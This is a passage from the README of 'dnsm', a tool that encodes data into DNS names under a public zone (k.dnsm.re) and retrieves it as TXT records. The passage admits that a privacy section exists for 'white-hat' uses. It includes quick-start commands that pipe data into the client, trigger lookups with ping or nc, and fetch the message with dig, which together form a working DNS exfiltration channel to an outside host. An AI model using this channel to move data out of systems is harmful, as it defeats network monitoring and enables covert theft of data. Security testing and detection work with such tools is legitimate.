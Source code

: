 Read the [Privacy-Preserving Data Transmission](#privacy-preserving-data-transmission) section if you're looking for a more white-hat-friendly use case.

## Quick Start

Download the latest release, put the binaries on your PATH, or run them in place.

> [!NOTE]
> Feel free to use our public zone `k.dnsm.re` for testing, in case you don't want to host your own server.

### Sending Data to the Public Instance

#### Generating domain names from some input data:

```bash
$ echo "hello world" | dnsm-client k.dnsm.re --random-mailbox -n

dnsm-client: zone=k.dnsm.re
             first_payload=141
             payload_per_chunk=141
             total_chunks=1
             mailbox=f8925edd7f13

aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re
```

> [!NOTE]
> For such small input data, only one chunk/domain name is needed.

#### Triggering DNS resolution:

```bash
$ ping -c 1 aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re

# Or with netcat
$ nc aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re 9999 # Port doesn't matter
```

> [!NOTE]
> There are many programs available on a typical Linux installation that can be used for this. Common options include `dig`, `curl`, `wget`, `resolvectl`, `netcat`, `ssh` and many more.

#### Retrieving messages:

```bash
$ dig @dnsm.re f8925edd7f13.m.dnsm.re TXT +tcp +short

"dc5a4edb8240\009hello world\010"
```

Also check out the [web mailbox](https://dnsm.re/#/inbox) and `dnsm-ws`.

### Running the Server Locally

